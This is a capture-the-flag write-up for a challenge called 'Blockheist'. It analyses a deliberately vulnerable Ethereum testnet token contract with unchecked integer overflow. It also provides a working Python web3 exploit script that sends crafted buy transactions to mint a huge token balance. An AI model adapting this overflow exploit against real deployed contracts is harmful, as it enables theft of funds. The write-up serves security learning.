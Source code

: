 ### Blockheist
![Blockheist CTFD](../..assets/blockheist_1.png)

The landing page of the webapp hints at a crypto website with the Connect Wallet button. 

![Blockheist landing](../..assets/blockheist_2.png)

The page's source code hints at it being EVM based with the use of ethersjs

![ethers js](../..assets/blockheist_3.png)

Opening a wallet provider and connecting to the dapp reveals that it's a sepolia ethereum dapp. 

Clicking `buy` flag reveals the user must own 1e75 Haxor token, which costs 4.7e+59 ETH

![dapp](../..assets/blockheist_4.png)

Searching for a the EVM wallet address format reveals a contract address (ca).

![devtools](../..assets/blockheist_5.png)

Checking the ca on [etherscan](https://sepolia.etherscan.io/address/0x2876ad7baf96864c992150ff16f909ab12440adb) reveals the contract source code.


```solidity
// Stripped to only important sections of contract source code
pragma solidity ^0.7.6;

contract Haxor {
    mapping (address => uint256) private userBalances;
    uint8 public TOKEN_PRICE = 2 wei;
    function buy(uint256 _tokenToBuy) external payable {
        require(
            msg.value == _tokenToBuy * TOKEN_PRICE, 
            string(abi.encodePacked("error ", _tokenToBuy, msg.value))
        );

        userBalances[msg.sender] += _tokenToBuy;
        TOKEN_PRICE++;
    }
    function getUserBalance(address _user) external view returns (uint256) {
        return userBalances[_user];
    }
```
The Important things to note from the code are:
1. The \_TOKEN\_PRICE\_ variable is a uint8 and the userBalances mapping has a uint256 dict value type.
2. The buy function uses unsafe maths to verify the amount being paid.  The unsafe multiplication will overflow back to 0 if its result is greater than 2^256. The user wallet controls one of the variables of the multiplication. 
3. Every buy irreversibly increases the cost of each Haxor token by 1. The unsafe addition will overflow the uint8 TOKEN\_PRICE variable and reset it to 0 after 2^8 - 2(2 Wei is the starting price of haxor) 

A simple script to interact with the contract

```python3
contract_abi = [] #Replace with contract ABI. Get from etherscan link
from web3 import HTTPProvider, Web3

CHAIN_ID = 11155111 #Sepolia
ALCHEMY_URL = "" #Sepolia Ethereum Provdier Url
w3: Web3 = Web3(HTTPProvider(ALCHEMY_URL))
user_wallet = w3.eth.account.from_key("") #Replace with wallet private_key
CONTRACT_ADDRESS = Web3.to_checksum_address("0x2876ad7baf96864c992150ff16f909ab12440adb") # Contract address
TOKEN_CONTRACT = w3.eth.contract(address=CONTRACT_ADDRESS, abi=contract_abi)
MAX_FEE = int(w3.eth.gas_price * 1.1) 

wallet_current_balance = TOKEN_CONTRACT.functions.getUserBalance(user_wallet.address).call()
print(wallet_current_balance)
current_haxor_price = TOKEN_CONTRACT.functions.TOKEN_PRICE().call()
print(current_haxor_price)
uint_max = 2**256
wei_to_send = current_haxor_price - (uint_max % current_haxor_price)
amount_of_tokens_to_buy = (wei_to_send + uint_max) // current_haxor_price
if wallet_current_balance + amount_of_tokens_to_buy > 2**256:
   print(f"User balance will overflow back to 0")
   exit()

raw_data = TOKEN_CONTRACT.encodeABI("buy", args=[amount_of_tokens_to_buy])
tx = {
            "to": w3.to_checksum_address(CONTRACT_ADDRESS),
            "value": wei_to_send,
            "gas": 400_000,
            "maxFeePerGas":MAX_FEE,
            "maxPriorityFeePerGas": Web3.to_wei(0.0005, "gwei"),
            "nonce": w3.eth.get_transaction_count(user_wallet.address),
            "chainId": CHAIN_ID,
            "data": raw_data,
            "type": 2,
        }
print(tx)
signed_txn = w3.eth.account.sign_transaction(tx, user_wallet._private_key)
txn_hash = w3.eth.send_raw_transaction(signed_txn.rawTransaction)
print(w3.to_hex(txn_hash)) # Check hash manually

```

With each run of the script, the user balance increases exponentially until the wallet can afford the flag

![solution](../..assets/blockheist_6.png)